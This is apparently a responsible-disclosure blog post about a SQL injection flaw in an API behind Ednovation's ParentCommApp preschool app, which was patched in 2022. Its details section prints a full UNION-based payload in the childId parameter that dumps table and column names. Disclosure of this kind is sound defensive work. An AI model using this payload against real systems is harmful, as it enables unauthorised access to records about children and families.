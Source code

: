 ```yaml
---
layout: post
# Possible CVE status: "CVE REQUESTED", "CVE RESERVED", "REPORTED", "FIXED", "FIXED – NO CVE", "NO RESPONSE", "UNPATCHED", "CVE-YYYY-NNNNN"
title: "[CVE REQUESTED] ParentCommApp SQL Injection Backend API"
date: 2025-07-26
cve: "Reported"
status: "Fixed"
categories: [Disclosure]
tags: [cve-requested, CVE, sql-injection, pii-exposure, ednovation, parentcommapp, vulnerability, ios, api]
permalink: /disclosures/parentcommapp-sql-injection-backend-api/
---
```


## Summary

A **SQL injection vulnerability** was identified in a backend API supporting Ednovation's ParentCommApp — a communication platform used by preschools and parents. The vulnerability allows attackers to manipulate request parameters and potentially extract unauthorized records from the database.

> **Ednovation**, headquartered in Singapore, is a leading provider of preschool education services across Asia, has evolved into a chain of more than 60 pre-schools and enrichment centres across Singapore, China and ASEAN.

## Background & Discovery

This issue was discovered while testing the ParentCommApp on iOS, where traffic was intercepted using **Burp Suite**. After logging in and intercepting traffic, it was observed that the API call used to fetch child attendance status did not include any form of validation and accepted unsanitized input — indicating a server-side flaw rather than a client implementation issue.

## Affected Product

- **Vendor**: [Ednovation](https://ednovation.com)
- **App**: ParentCommApp (iOS)
- **Platform**: Backend APIs serving iOS/Android apps
- **Version**: Affected prior to 2022 remediation

## Vulnerability Details

While testing the iOS version of ParentCommApp using **Burp Suite**, an API call responsible for fetching child attendance status was observed to be vulnerable to **SQL injection**.

The vulnerable API accepted a `childId` parameter via POST request body and failed to sanitize the input. Manual testing with SQL payloads like:

```sql
'date=Sun%20Jun%2026%2016%3A19%3A23%20GMT%2B0800%202022&childId=12 UNioN \x0d\x0a  (\x0d\x0a    SELECT 111, 222, 333, 444, 555, 666, 777, 888, 999, 101010,\x0d\x0a      group_concat(a.combine separator \',\'), \x0d\x0a      121212, 131313, 141414   \x0d\x0a    from \x0d\x0a      (\x0d\x0a        SELECT \x0d\x0a          concat(\x0d\x0a            \'\"\', \x0d\x0a            table_name, \x0d\x0a            \'\"\', \x0d\x0a            \':\', \x0d\x0a            \'[\', \x0d\x0a            GROUP_CONCAT(\x0d\x0a              concat(\'\"\', COLUMN_NAME, \'\"\') separator \',\'\x0d\x0a            ), \x0d\x0a            \']\'\x0d\x0a          ) as combine \x0d\x0a        FROM \x0d\x0a          INFORMATION_SCHEMA.COLUMNS \x0d\x0a        WHERE \x0d\x0a          TABLE_SCHEMA = \'dev_XXXX\' \x0d\x0a        GROUP BY \x0d\x0a          TABLE_NAME \x0d\x0a        ORDER BY \x0d\x0a          table_name\x0d\x0a      ) as a\x0d\x0a  )\x0d\x0alimit 1,2#&action=getChildAttendanceStatus'
```

resulted in expanded database output, confirming an **authentication-independent injection flaw**.

## Exploitation Impact

- **Sensitive data disclosure**: Unauthorized access to other child/parent/teacher records
- **Database enumeration**: Potential for data extraction beyond target record

## **Security Best Practices Recommended**:

Vendors should validate and sanitize all input parameters server-side. Use parameterized queries and ORM frameworks to prevent injection flaws.

## Timeline

- **2022-07**: Issue discovered and responsibly reported to vendor  
- **2022-07**: Vendor acknowledged and deployed a patch  
- **2025-07**: Public disclosure and CVE request initiated  
